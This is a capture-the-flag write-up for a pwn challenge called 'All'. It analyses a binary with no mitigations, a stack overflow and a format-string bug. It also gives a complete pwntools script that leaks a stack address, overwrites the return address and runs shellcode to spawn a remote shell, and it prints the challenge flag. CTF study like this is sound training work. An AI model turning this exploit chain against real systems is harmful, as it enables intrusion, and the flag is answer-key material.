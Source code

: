 # All

What if I just.... put ALL the vulnerabilities in there? With no mitigations?

nc all.chal.cyberjousting.com 1348


## Challenge

So just by the challenge description we could infer that they are multiple ways to solve this challenge. Let's do some checks and then open it up.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

As shown there are absolutely no mitigation techniques being applied to this binary.

```c
void vuln(void)

{
  int iVar1;
  char local_28 [32];
  
  while( true ) {
    iVar1 = strcmp(local_28,"quit");
    if (iVar1 == 0) break;
    read(0,local_28,256);
    printf(local_28);
  }
  return;
}
```

Just peeking here into the vuln function we already see a very apparent buffer overflow. After seeing this I brainstormed on how I wanted to achieve a shell and I eventually came to the conclusion that shellcode would be a efficient solution. Just looking at this function we see two variables on the stack, our buffer and the strcmp result variable. Calculating the distance to the return pointer should be trivial here. After grabbing the offset to the return pointer, we can write our shellcode somewhere and then return to it.

For simplicity I chose to write the shellcode past the return address and then just calculate the address we are writing our shellcode to by leaking the address of the variable that stores our buffer. Using gdb I was able to identify that the first pointer that is returned by `%p` was in fact the address of our buffer. So adding how every many bytes we wrote before our shellcode to that buffer address would give us the address of our shellcode.

```python
from pwn import *

elf = context.binary = ELF('./all')

#p = process('./all')
p = remote('all.chal.cyberjousting.com', 1348)


#Leaking Address of Local Variable
payload = b'%p'
p.sendline(payload)
var = int(p.recvuntil(b'\n').strip(), 16)
log.info("Variable Address = {}".format(hex(var)))

#Shellcode Payload
payload = b'quit\x00' + b'A'*35 + p64(var+48) + asm(shellcraft.sh())
p.sendline(payload)
p.interactive()
```

This script does exactly what was discussed: leaks the address of the buffer variable, overwrites the return address with the location of the shellcode, and then writes the shellcode into that address. So when the function returns it is executing our shellcode.

## Flag

`byuctf{too_many_options_what_do_I_chooooooose}`